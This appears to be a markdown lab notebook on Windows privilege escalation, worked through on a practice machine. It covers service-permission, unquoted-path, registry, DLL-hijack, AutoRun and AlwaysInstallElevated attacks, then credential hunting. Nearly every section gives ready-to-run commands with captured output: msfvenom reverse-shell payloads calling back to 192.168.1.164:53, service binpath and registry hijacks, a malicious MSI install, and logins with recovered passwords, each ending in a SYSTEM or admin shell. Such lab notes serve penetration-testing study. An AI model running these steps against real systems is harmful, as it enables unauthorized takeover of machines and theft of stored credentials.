

# Windows PrivEsc
#### Table of Contents
- [Kernel Exploit](#kernel-exploit)
- [Services](#services)
	- [Attacking Insecure Service Permissions](#attacking-insecure-service-permissions)

## Kernel Exploit

Windows exploit suggester   
`https://github.com/bitsadmin/wesng`

1. Extract the output of the systeminfo command:
 > systeminfo > systeminfo.txt
2. Run wesng to find potential exploits:
```bash
python wes.py systeminfo.txt -i 'Elevation of Privilege' --exploits-only 
```
3. Cross-reference results with compiled exploits:   
`https://github.com/SecWiki/windows-kernel-exploits`

## Services

Query the configuration of a service:
> sc.exe qc  \<name>   
> sc qc BITS
	
Query the current status of a service:   
> sc.exe query \<name>   
> sc query BITS   
> Get-Service BITS
	
Modify a configuration option of a service:
> sc.exe config \<name> \<option> = \<value>   
> sc config BITS start= disabled   
> sc config BITS start= Automatic   
> Set-Service -Name BITS -StartupType Disabled   
> Set-Service -Name BITS -StartupType Automatic

Start/Stop a service:
> net start/stop \<name>   
> net stop BITS   
> Stop-Service -Name "BITS"   
> Start-Service -Name "BITS"

Using accesschk to find permissions on services.
> accesschk.exe /accepteula -uwcqv user BITS

### Attacking Insecure Service Permissions 
1. Find the weak service and verify:
> accesschk.exe /accepteula -uwcqv user *    
```powershell
C:\PrivEsc\tools>.\accesschk.exe /accepteula -uwcqv user *
.\accesschk.exe /accepteula -uwcqv user *
RW daclsvc
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_CHANGE_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL
```   
Because we have *SERVICE_CHANGE_CONFIG* and *SERVICE_START/STOP* we can modify the binary path the service will start

2. Find and modify service binary:
> sc qc daclsvc
```powershell
C:\PrivEsc\tools>sc qc daclsvc
sc qc daclsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\DACL Service\daclservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

> msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.164 LPORT=53 -f exe -o reverse.exe   
> sc config daclsvc binpath= "\\"C:\PrivEsc\tools\reverse.exe\\""   
```powershell
C:\PrivEsc\tools>sc config daclsvc binpath= "\"C:\PrivEsc\tools\reverse.exe\""
sc config daclsvc binpath= "\"C:\PrivEsc\tools\reverse.exe\""
[SC] ChangeServiceConfig SUCCESS

C:\PrivEsc\tools>sc qc daclsvc
sc qc daclsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\PrivEsc\tools\reverse.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```
3. Start/Restart service to exploit system:
> net start daclsvc
```powershell
C:\PrivEsc\tools>sc query daclsvc
sc query daclsvc

SERVICE_NAME: daclsvc 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 1  STOPPED 
        WIN32_EXIT_CODE    : 1077  (0x435)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

C:\PrivEsc\tools>net start daclsvc
net start daclsvc
[*] Command shell session 4 opened (192.168.1.164:53 -> 192.168.1.174:52340) at 2021-10-22 12:24:47 -0400
C:\PrivEsc\tools>sessions 4
[*] Backgrounding session 3...
[*] Starting interaction with 4...

C:\Windows\system32>whoami
whoami
nt authority\system
```

### Attacking Unquoted Service Path
This attack is possible because windows views the space between files as a possible argument and will check to verify that before continuing down the line.  A program with the path *"C:\Program Files\Some Dir\SomeProgram.exe"* will execute in the following order:   
>C:\Program.exe   
>C:\Program Files\Some.exe   
>C:\Program Files\Some Dir\SomeProgram.exe    

To abuse this if we can create either *Program.exe* or *Some.exe* the it will be executed as system.   
1. Find unquoted services:
> wmic service get name,displayname,pathname,startmode |findstr /i /v "c:\windows\\\\" |findstr /i /v """
```powershell
C:\PrivEsc\tools>wmic service get name,displayname,pathname,startmode |findstr /i /v "c:\windows\\" |findstr /i /v """
wmic service get name,displayname,pathname,startmode |findstr /i /v "c:\windows\\" |findstr /i /v """
DisplayName                                                                         Name                                      PathName                                                                                                                       StartMode  
LSM                                                                                 LSM                                                                                                                                                                      Unknown    
NetSetupSvc                                                                         NetSetupSvc                                                                                                                                                              Unknown    
Unquoted Path Service                                                               unquotedsvc                               C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe                                                    Manual     


```
The service *unquotedsvc* has the path of *C:\Program Files\Unquoted Path Service\ Common Files\unquotedpathservice.exe*   

2. Check permissions on vulnerable service:
> accesschk.exe /accepteula -ucqv user unquotedsvc
```powershell
C:\PrivEsc\tools>.\accesschk.exe /accepteula -ucqv user unquotedsvc
.\accesschk.exe /accepteula -ucqv user unquotedsvc
R  unquotedsvc
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL
```
Current permissions give us the ability start and stop the service.    

3. Check File permissions at each level:
> accesschk.exe /accepteula -uwdq C:\   
> accesschk.exe /accepteula -uwdq "C:\Program Files\\"   
> accesschk.exe /accepteula -uwdq "C:\Program Files\\Unquoted Path Service\\"   
```powershell
C:\PrivEsc\tools>.\accesschk.exe /accepteula -uwdq C:\
.\accesschk.exe /accepteula -uwdq C:\
C:\
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Administrators
  RW NT AUTHORITY\SYSTEM

C:\PrivEsc\tools>.\accesschk.exe /accepteula -uwdq "C:\Program Files"
.\accesschk.exe /accepteula -uwdq "C:\Program Files"
C:\Program Files
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators

C:\PrivEsc\tools>.\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
.\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
C:\Program Files\Unquoted Path Service
  Medium Mandatory Level (Default) [No-Write-Up]
  RW BUILTIN\Users
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
```

The Permissions for *C:\Program Files\Unquoted Path Service\\* have RW(read write) for BUILTIN\Users.  This means if we create a binary named *Common.exe* at *C:\Program Files\Unquoted Path Service\\* when the service *unquotedsvc* starts it will execute our payload.
4. Create exploit file and start service:
> copy reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"   
> net start unquotedsvc
```powershell
C:\PrivEsc\tools>copy reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
copy reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
        1 file(s) copied.
C:\PrivEsc\tools>net start unquotedsvc
net start unquotedsvc
[*] Command shell session 7 opened (192.168.1.164:53 -> 192.168.1.174:52396) at 2021-10-22 15:07:50 -0400
C:\PrivEsc\tools>sessions 7
[*] Backgrounding session 6...
[*] Starting interaction with 7...

C:\Windows\system32>whoami
whoami
nt authority\system
```

### Attacking Weak Registry Permissions   
The Windows registry stores entries for each service. If the ACL is misconfigured, it may be possible to modify a service’s configuration even if we cannot modify the service directly.   

1. Find registry key that you can modify:
>accesschk.exe -uvwqk HKLM\SYSTEM\CurrentControlSet\Services\ | select-string -Pattern INTERACTIVE -Context 6,2    
>Get-Acl -Path HKLM:\SYSTEM\CurrentControlSet\Services\regsvc | fl    
```powershell
PS C:\PrivEsc\tools> .\accesschk.exe -uvwqk HKLM\SYSTEM\CurrentControlSet\Services\ | select-string -Pattern INTERACTIVE -Context 6,2
.\accesschk.exe -uvwqk HKLM\SYSTEM\CurrentControlSet\Services\ | select-string -Pattern INTERACTIVE -Context 6,2

  HKLM\SYSTEM\CurrentControlSet\Services\regsvc
    Medium Mandatory Level (Default) [No-Write-Up]
    RW NT AUTHORITY\SYSTEM
        KEY_ALL_ACCESS
    RW BUILTIN\Administrators
        KEY_ALL_ACCESS
>   RW NT AUTHORITY\INTERACTIVE
        KEY_ALL_ACCESS
  HKLM\SYSTEM\CurrentControlSet\Services\RemoteAccess

PS C:\PrivEsc\tools> Get-Acl -Path HKLM:\SYSTEM\CurrentControlSet\Services\regsvc | fl
Get-Acl -Path HKLM:\SYSTEM\CurrentControlSet\Services\regsvc | fl


Path   : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\regsvc
Owner  : BUILTIN\Administrators
Group  : NT AUTHORITY\SYSTEM
Access : Everyone Allow  ReadKey
         NT AUTHORITY\INTERACTIVE Allow  FullControl
         NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  -2147483648
         APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES Allow  ReadKey
         S-1-15-3-1024-1065365936-1281604716-3511738428-1654721687-432734479-3232135806-4053264122-3456934681 Allow  
         -2147483648
         S-1-15-3-1024-1065365936-1281604716-3511738428-1654721687-432734479-3232135806-4053264122-3456934681 Allow  
         ReadKey
Audit  : 
Sddl   : O:BAG:SYD:P(A;CI;KR;;;WD)(A;CI;KA;;;IU)(A;CI;KA;;;SY)(A;CI;KA;;;BA)(A;CIIO;GR;;;AC)(A;OICI;KR;;;AC)(A;CIIO;GR;
         ;;S-1-15-3-1024-1065365936-1281604716-3511738428-1654721687-432734479-3232135806-4053264122-3456934681)(A;OICI
         ;KR;;;S-1-15-3-1024-1065365936-1281604716-3511738428-1654721687-432734479-3232135806-4053264122-3456934681)
```

Because we have *NT AUTHORITY\INTERACTIVE* access to regsvc we can modify the key.    

2. Modify registry key and start service:
>reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\tools\reverse.exe /f   
>net start regsvc    
```powershell
PS C:\PrivEsc\tools> reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\tools\reverse.exe /f
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\tools\reverse.exe /f
The operation completed successfully.
PS C:\PrivEsc\tools> net start regsvc
net start regsvc
[*] Command shell session 9 opened (192.168.1.164:53 -> 192.168.1.174:52449) at 2021-10-22 16:29:32 -0400

PS C:\PrivEsc\tools> sessions 9
[*] Backgrounding session 8...
[*] Starting interaction with 9...

C:\Windows\system32>whoami
whoami
nt authority\system
```

### Attacking Insecure Service Executables
If the original service executable is modifiable by our user, then we can simply replace it with a malicious payload.

1. Find service executable that is modifiable
> winPEASany.exe quiet servicesinfo
```powershell
C:\PrivEsc\tools>.\winPEASany.exe quiet servicesinfo
.\winPEASany.exe quiet servicesinfo
 
 -- Snip --

  ========================================(Services Information)========================================

    filepermsvc(File Permissions Service)["C:\Program Files\File Permissions Service\filepermservice.exe"] - Manual - Stopped
    File Permissions: Everyone [AllAccess]
   =================================================================================================

-- Snip --
```

This shows that the service "filepermsvc" has an executable (*C:\Program Files\File Permissions Service\filepermservice.exe*) that is modifiable by Everyone. 

2. Verify permissions
> .\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
```powershell
C:\PrivEsc\tools>.\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
.\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
C:\Program Files\File Permissions Service\filepermservice.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
        FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
        FILE_ALL_ACCESS
  RW BUILTIN\Administrators
        FILE_ALL_ACCESS
  RW MSEDGEWIN10\IEUser
        FILE_ALL_ACCESS
  RW BUILTIN\Users
        FILE_ALL_ACCESS
```

3. Backup executable and then replace with malicious payload and start service.
> copy "C:\Program Files\File Permissions Service\filepermservice.exe" C:\Temp\
> copy /Y C:\PrivEsc\tools\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe"   
> net start filepermsvc
```powershell
C:\PrivEsc\tools>copy "C:\Program Files\File Permissions Service\filepermservice.exe" C:\Temp
copy "C:\Program Files\File Permissions Service\filepermservice.exe" C:\Temp
        1 file(s) copied.

C:\PrivEsc\tools>copy /Y C:\PrivEsc\tools\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe"
copy /Y C:\PrivEsc\tools\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe"
        1 file(s) copied.

C:\PrivEsc\tools>net start filepermsvc
net start filepermsvc
[*] Command shell session 12 opened (192.168.1.164:53 -> 192.168.1.174:52883) at 2021-10-26 15:04:42 -0400
C:\PrivEsc\tools>sessions 12

[*] Backgrounding session 11...
[*] Starting interaction with 12...

C:\Windows\system32>whoami
whoami
nt authority\system
```

### DLL Hijacking
Often a service will try to load functionality from a library called a DLL (dynamic-link library). Whatever functionality the DLL provides, will be executed with the same privileges as the service that loaded it. If a DLL is loaded with an absolute path, it might be possible to escalate privileges if that DLL or DLL location is writable by our user.

1. Find possible DLL Hijack services
> winPEASany.exe quiet servicesinfo
```powershell
C:\PrivEsc\tools>.\winPEASany.exe quiet servicesinfo
.\winPEASany.exe quiet servicesinfo
 
-- Snip --

  ========================================(Services Information)========================================

    dllsvc(DLL Hijack Service)["C:\Program Files\DLL Hijack Service\dllhijackservice.exe"] - Manual - Stopped
   =================================================================================================

-- Snip --

  [+] Checking write permissions in PATH folders (DLL Hijacking)()
   [?] Check for DLL Hijacking in PATH folders https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#dll-hijacking
    C:\Windows\system32
    C:\Windows
    C:\Windows\System32\Wbem
    C:\Windows\System32\WindowsPowerShell\v1.0\
    C:\Windows\System32\OpenSSH\
    C:\ProgramData\chocolatey\bin
    C:\Program Files\Puppet Labs\Puppet\bin
    C:\Users\IEUser\AppData\Local\Microsoft\WindowsApps
    (DLL Hijacking) C:\Temp: Authenticated Users [WriteData/CreateFiles]
```

2. Find if we have start and stop permissions on *dllsvc*
> accesschk.exe /accepteula -uvqc user dllsvc
```powershell
C:\PrivEsc\tools>.\accesschk.exe /accepteula -uvqc user dllsvc
.\accesschk.exe /accepteula -uvqc user dllsvc
R  dllsvc
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL
```

3. Run Procmon64.exe as Administrator privileges (This will need to be done on test box). 
	1. Press Ctrl+L to open the Filter menu.  
	2. Add a new filter on the Process Name matching dllhijackservice.exe.  
	3. On the main screen, deselect registry activity and network activity.
4. Start the service:
> net start dllsvc   
5. Back in Procmon, note that a number of “NAME NOT FOUND” errors appear, associated with the hijackme.dll file. The last entry shows it looks in *C:\Temp* which we have write access to.   
 


6. Create a Dll payload and name it hijackme.dll then place it in *C:\Temp\\*. Then restart service
> msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.164 LPORT=53 -f dll -o hijackme.dll    
> copy \\192.168.1.164\tools\hijackme.dll C:\temp\    
> net stop dllsvc   
> net start dllsvc   
```powershell
C:\PrivEsc\tools>copy \\192.168.1.164\tools\hijackme.dll C:\temp\
copy \\192.168.1.164\tools\hijackme.dll C:\temp\
        1 file(s) copied.

C:\PrivEsc\tools>net stop dllsvc
net stop dllsvc

The DLL Hijack Service service was stopped successfully.

C:\PrivEsc\tools>net start dllsvc
net start dllsvc
The DLL Hijack Service service is starting..
[*] Command shell session 13 opened (192.168.1.164:53 -> 192.168.1.174:52895) at 2021-10-26 15:48:44 -0400

C:\PrivEsc\tools>sessions 13

[*] Backgrounding session 11...
[*] Starting interaction with 13...

C:\Windows\system32>whoami
whoami
nt authority\system
```

## Registry 
### AutoRuns
Windows can be configured to run commands at startup, with elevated privileges. These “AutoRuns” are configured in the Registry. If you are able to write to an AutoRun executable, and are able to restart the system you may be able to escalate privileges.

1. Find AutoRun Executables:   
	* Use winPEAS to check for writable AutoRun executables
	> .\winPEASany.exe quiet applicationsinfo   
```powershell
C:\PrivEsc\tools>winpeasany.exe quiet applicationsinfo
winpeasany.exe quiet applicationsinfo

-- Snip --

  [+] Autorun Applications(T1010)
   [?] Check if you can modify other users AutoRuns binaries https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#run-at-startup
    Folder: C:\Windows\system32
    File: C:\Windows\system32\SecurityHealthSystray.exe
    RegPath: HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
   =================================================================================================

    Folder: C:\BGinfo\Bginfo.exe\accepteula\ic:\bginfo\bgconfig.bgi
    FolderPerms: Authenticated Users [WriteData/CreateFiles]
    File: C:\BGinfo\Bginfo.exe /accepteula /ic:\bginfo\bgconfig.bgi /timer:0 (Unquoted and Space detected)
    FilePerms: Authenticated Users [WriteData/CreateFiles]
    RegPath: HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
   =================================================================================================

    Folder: C:\Windows\system32
    File: C:\Windows\system32\vm3dservice.exe -u
    RegPath: HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
   =================================================================================================

    Folder: C:\Program Files\VMware\VMware Tools
    File: C:\Program Files\VMware\VMware Tools\vmtoolsd.exe -n vmusr
    RegPath: HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
   =================================================================================================

    Folder: C:\Program Files\Autorun Program
    File: C:\Program Files\Autorun Program\program.exe
    FilePerms: Everyone [AllAccess]
    RegPath: HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
   =================================================================================================

-- Snip --
```   
  * Alternatively, we could manually enumerate the AutoRun executables and then use accesschk.exe to verify the permissions on each one:
	> reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run   
	> accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```powershell
C:\PrivEsc\tools>reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
 reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
    SecurityHealth    REG_EXPAND_SZ    %windir%\system32\SecurityHealthSystray.exe
    bginfo    REG_SZ    C:\BGinfo\Bginfo.exe /accepteula /ic:\bginfo\bgconfig.bgi /timer:0
    VMware VM3DService Process    REG_SZ    "C:\Windows\system32\vm3dservice.exe" -u
    VMware User Process    REG_SZ    "C:\Program Files\VMware\VMware Tools\vmtoolsd.exe" -n vmusr
    My Program    REG_SZ    "C:\Program Files\Autorun Program\program.exe"
	
C:\PrivEsc\tools>accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"

AccessChk v4.02 - Check access of files, keys, objects, processes or services
Copyright (C) 2006-2007 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Program Files\Autorun Program\program.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
        FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
        FILE_ALL_ACCESS
  RW BUILTIN\Administrators
        FILE_ALL_ACCESS
  RW MSEDGEWIN10\IEUser
        FILE_ALL_ACCESS
  RW BUILTIN\Users
        FILE_ALL_ACCESS
```

2. Backup program then replace with malicious payload
> copy "C:\Program Files\Autorun Program\program.exe" C:\Temp   
> copy /Y C:\PrivEsc\tools\reverse.exe "C:\Program Files\Autorun Program\program.exe"   
> Restart computer or have admin login

### AlwaysInstallElevated 
MSI files are package files used to install applications. These files run with the permissions of the user trying to install them. Windows allows for these installers to be run with elevated (i.e. admin) privileges. If this is the case, we can generate a malicious MSI file which contains a reverse shell.    
The catch is that two Registry settings must be enabled for this to work. The “AlwaysInstallElevated” value must be set to 1 for both the local machine and the current user:   
* HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
* HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer     

If either of these are missing or disabled, the exploit will not work.   

1.  Find Registry Values  
	* Use winPEAS to see if both registry values are set:    
	> winPEASany.exe quiet windowscreds      
  
  ```powershell
C:\PrivEsc\tools>winPEASany.exe quiet windowscreds
winPEASany.exe quiet windowscreds
 
-- Snip --

  [+] Checking AlwaysInstallElevated(T1012)
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!

-- Snip --
  ```
  
  
* Alternatively, verify the values manually:
	> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated    
	> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

```powershell
C:\PrivEsc\tools>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1


C:\PrivEsc\tools>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

2. Create a new reverse shell with msfvenom, this time using the msi format, and save it with the .msi extension:
> msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.164 LPORT=53 -f msi -o reverse.msi

3. Copy to payload to windows machine and execute it.
> copy \\\192.168.1.164\tools\reverse.msi C:\PrivEsc\tools\reverse.msi   
> msiexec /quiet /qn /i C:\PrivEsc\tools\reverse.msi
```powershell
C:\PrivEsc\tools>copy \\192.168.1.164\tools\reverse.msi C:\PrivEsc\tools\reverse.msi
copy \\192.168.1.164\tools\reverse.msi C:\PrivEsc\tools\reverse.msi
        1 file(s) copied.

C:\PrivEsc\tools>msiexec /quiet /qn /i C:\PrivEsc\tools\reverse.msi
msiexec /quiet /qn /i C:\PrivEsc\tools\reverse.msi

[*] Command shell session 14 opened (192.168.1.164:53 -> 192.168.1.174:52914) at 2021-10-26 17:01:35 -0400

C:\PrivEsc\tools>sessions 14
[*] Backgrounding session 11...
[*] Starting interaction with 14...

C:\Windows\system32>whoami
whoami
nt authority\system
```

## Passwords
### Registry   
Plenty of programs store configuration options in the Windows Registry.
Windows itself sometimes will store passwords in plaintext in the Registry.
It is always worth searching the Registry for passwords.
The following commands will search the registry for keys and values that contain “password”
> reg query HKLM /f password /t REG_SZ /s    
> reg query HKCU /f password /t REG_SZ /s

This usually generates a lot of results, so often it is more fruitful to use winpeas.

1. Use winPEAS to check common password locations:
> .\winPEASany.exe quiet filesinfo userinfo    

```powershell
C:\PrivEsc\tools>winpeasany.exe quiet filesinfo userinfo
winpeasany.exe quiete filesinfo userinfo
   Creating Dynamic lists, this could take a while, please wait...
   - Checking if domain...
   - Getting Win32_UserAccount info...
   - Creating current user groups list...
   - Creating active users list...
   - Creating disabled users list...
   - Admin users list...

-- Snip --

  ===========================================(Users Information)===========================================

-- Snip --

  [+] Looking for AutoLogon credentials(T1012)
    Some AutoLogon credentials were found!!
    DefaultUserName               :  admin
    DefaultPassword               :  password123

-- Snip --


  ==============================(Interesting files and registry)==============================

  [+] Putty Sessions()
    SessionName: BWP123F42
    ProxyPassword: password123
    ProxyUsername: admin
   =================================================================================================


-- Snip --
 ```

2. The results show both AutoLogon credentials and Putty session credentials for the admin user (admin/password123).  These can be used with winexe on kali
> winexe -U 'admin%password123' //192.168.1.174 cmd.exe

```powershell
┌──(kali㉿kali)-[~]
└─$ winexe -U 'admin%password123' //192.168.1.174 cmd.exe

Microsoft Windows [Version 10.0.17763.379]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
msedgewin10\admin

```

### Saved Creds

Windows has a runas command which allows users to run commands with the privileges of other users. This usually requires the knowledge of the other user’s password. However, Windows also allows users to save their credentials to the system, and these saved credentials can be used.   

The tool winpeas can find these however by default winpeas runs all checks besided CMD. CMD checks wifi creds, cred manager (saved creds), and clipboard.  To do all checks plus CMD just add cmd to the command `winpeasany.exe cmd`.  To just target saved credentials `windpeasany.exe cmd windowscreds`

1. Run winPEAS to find any saved creds.
> winpeasany.exe quiet cmd windowscreds
```powershell
C:\PrivEsc\tools>winpeasany.exe quiet cmd windowscreds
winpeasany.exe quiet cmd windowscreds
   Creating Dynamic lists, this could take a while, please wait...
   - Checking if domain...
   - Getting Win32_UserAccount info...
   - Creating current user groups list...
   - Creating active users list...
   - Creating disabled users list...
   - Admin users list...
 
-- Snip --
 
  =========================================(Windows Credentials)=========================================

  [+] Checking Windows Vault()
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#credentials-manager-windows-vault
  [X] Exception: Object reference not set to an instance of an object.
    Not Found

  [+] Checking Credential manager()
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#credentials-manager-windows-vault

Currently stored credentials:

    Target: MicrosoftAccount:target=SSO_POP_Device
    Type: Generic
    User: 02psqnskqyahvkpu
    Saved for this logon only

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic
    User: 02psqnskqyahvkpu
    Local machine persistence

    Target: Domain:interactive=MSEDGEWIN10\admin
    Type: Domain Password
    User: MSEDGEWIN10\admin


    [i] If any cred was found, you can use it with 'runas /savecred'

-- Snip --

```

2. This can be verified by `cmdkey /list`
```powershell
C:\PrivEsc\tools>cmdkey /list
cmdkey /list

Currently stored credentials:

    Target: MicrosoftAccount:target=SSO_POP_Device
    Type: Generic 
    User: 02psqnskqyahvkpu
    Saved for this logon only
    
    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic 
    User: 02psqnskqyahvkpu
    Local machine persistence
    
    Target: Domain:interactive=MSEDGEWIN10\admin
    Type: Domain Password
    User: MSEDGEWIN10\admin
```

3. Use the RunAs command to execute a program with the saved creds.
> runas /savecred /user:admin C:\PrivEsc\tools\reverse.exe

```powershell
C:\PrivEsc\tools>runas /savecred /user:admin C:\PrivEsc\tools\reverse.exe
runas /savecred /user:admin C:\PrivEsc\tools\reverse.exe

[*] Command shell session 17 opened (192.168.1.164:53 -> 192.168.1.174:53240) at 2021-10-29 11:29:37 -0400

C:\PrivEsc\tools>sessions 17

[*] Backgrounding session 16...
[*] Starting interaction with 17...

C:\Windows\system32>whoami
whoami
msedgewin10\admin
```

### Configuration Files
Some administrators will leave configurations files on the system with passwords in them.   
Two commands to search for them are:
> dir /s \*pass\* == \*.config    
> findstr /si password \*.xml \*.ini \*.txt

1. Use winPEAS to search for configuration files with passwords.
> winpeasany.exe quiet filesinfo
```powershell
C:\PrivEsc\tools>winpeasany.exe quiet filesinfo
winpeasany.exe quiet filesinfo
   Creating Dynamic lists, this could take a while, please wait...
   - Checking if domain...
   - Getting Win32_UserAccount info...
   - Creating current user groups list...
   - Creating active users list...
   - Creating disabled users list...
   - Admin users list...

-- Snip --

  [+] Unnattend Files()
    C:\Windows\Panther\Unattend.xml
<Password>                    <Value>cGFzc3dvcmQxMjM=</Value>                    <PlainText>false</PlainText>                </Password>

-- Snip --
```

3. Convert base64 found and use creds.
```bash
┌──(kali㉿kali)-[~/Training]
└─$ echo -n cGFzc3dvcmQxMjM= | base64 -d
password123┌──(kali㉿kali)-[~/Training]
```

### SAM/SYSTEM Backups
The SAM and SYSTEM files are located in the C:\Windows\System32\config directory. The files are locked while Windows is running. Backups of the files may exist in the C:\Windows\Repair or C:\Windows\System32\config\RegBack directories.

1. Use winpeas to locate any SAM/SYSTEM backups.
> winpeas.exe quiet filesinfo
```powershell
C:\PrivEsc\tools>winpeasany.exe quiet filesinfo
winpeasany.exe quiet filesinfo

-- Snip --

  [+] Looking for common SAM & SYSTEM backups()
    C:\Windows\repair\SAM
    C:\Windows\repair\SYSTEM

-- Snip --
```

2. copy these backups to kali machine.
